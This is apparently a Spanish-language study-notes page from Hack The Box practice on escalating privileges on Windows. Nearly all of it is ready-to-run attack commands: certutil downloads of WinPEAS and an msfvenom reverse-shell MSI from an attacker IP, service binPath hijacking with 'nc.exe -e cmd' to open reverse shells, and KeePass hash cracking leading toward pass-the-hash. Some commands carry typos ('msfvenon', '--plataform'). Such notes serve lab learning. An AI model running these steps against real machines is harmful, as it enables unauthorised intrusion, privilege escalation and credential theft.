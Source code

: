 # Escalacion de privilegios Windows

Tags: #Windows #Escalada #Privilegios #NT-AuthoSystem

## Enumeracion Tools

Usar **WinPEAS** ya que te escanea y te muestra las vulnerabilidades 
Debemos de descargar el archivo **winPeasx64.exe**
Usamos este comando en la maquina victima Windows para cargar un archivo de la maquina de atacante
❯ **certutil.exe -f -urlcache -split http://10.10.14.2/winPeas.exe winPeas.exe**
Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
	* **set 1 in HKLM** 
	* **set 1 in HKCU** lo cual es malo para esa maquina Windows.
Podemos usar el siguiente comando para crear un archivo malicioso y asi explotar la vulnerabilidad anterior
❯ **msfvenon -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 --plataform windows -a 64 -f msi -o reverse.msi** 
	* LHOST ->  IP de atacante
	* LPORT -> puerto Netcat 443
	* p -> payload 
	* a -> arquitectura x64
	* f -> formato
	* nombre del archivo -> reverse.msi
Usamos este comando en la maquina victima Windows para cargar un archivo de la maquina de atacante 
❯ **certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi**
Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
❯ **msiexec /quiet /qn /i reverse.msi**


## Manual 

❯  **whoami /priv** Miramos los privilegios que tenemos  
	**SeInpersonatePrivilege** En el cual podriamos usar RottenPotato o  JuicyPotato 

❯ **Systeminfo** 
	Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.

****
❯ **net user < USER>** Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. El grupo que nos interesa en este caso es **Server Operators** ya que en el podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Por lo que debemos verificar sipertenecemos a este grupo.
Por lo que cargaremos a la maquina Victima Netcat.exe que se encuentra en la maquina Atacante y lo subimos con:
	❯ **upload /home/omar/Docume/HTB/nc.exe** Subimos el archivo del Netcat a la maquina victima 
	
❯ **sc.exe create** **reverse** **binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443”** Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 
Si no nos deja, hacemos lo siguiente:
❯ **Services** Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo de **Server Operators** y asi podernos montar una revershell con algun servicio con sc.exe
	❯ **sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443”** Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)
	Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
	❯ **sc.exe stop VMTools** Paramos el servicio
	❯ **sc.exe start VMTools** Iniciamos el servicio
****














- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	❯ **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente 
	❯ **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash
	❯ **john --wordlist=/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash y obtener la passwd que colocaremos en el keepass y nos devolvera otro hash el cual...
	Y todo para poder hacer un 'pass the hash', verificando con crackmapexec y entrando con psexec 
  - 